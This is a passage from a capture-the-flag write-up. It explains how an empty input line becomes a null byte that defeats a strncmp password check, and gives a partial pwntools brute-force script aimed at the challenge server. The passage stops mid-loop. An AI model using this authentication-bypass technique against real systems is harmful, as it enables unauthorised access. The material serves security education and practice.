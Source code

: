 ```c
  char *pcVar2;
  size_t sVar3;
  undefined8 local_638;
  undefined8 local_630;
  char local_28 [32];
  
  local_630 = password[1];
  local_638 = *password;
  puts("Enter password");
  printf(" >> ");
  pcVar2 = fgets(local_28,0x20,stdin);
  if (pcVar2 == (char *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  sVar3 = strcspn(local_28,"\n");
  local_28[sVar3] = '\0';
  iVar1 = strncmp(local_28,(char *)&local_638,0xe);
  return iVar1 == 0;
}
```

Now we can see that if we get the password right we get a flag. Look closely at the `authenticate_admin` function and try to find the unintended solution. The trick is to know that strcmp type of functions stop comparing when they encouter a nullbyte because they are designed for c-style strings. If our input is just a newline then it gets overwritten as a nullbyte because of the lines:

```c
  sVar3 = strcspn(local_28,"\n");
  local_28[sVar3] = '\0';
```

Now we just need a nullbyte at the beginning of the random password. It's a simple bruteforce that shouldn't take too much time because we only pray for a single byte to equal zero. There's my solve.py script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./last_minute_pwn_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r)
    else:
        r = remote("last_minute_pwn.pwn.umasscybersec.org", 7293)

    return r


def main():
    while True:
        r = conn()
        r.sendline(b'2')
        r.sendline(b'')
        r.recvuntil(b'Login ')
        a = r.recv(1)
        if a == b'f':
```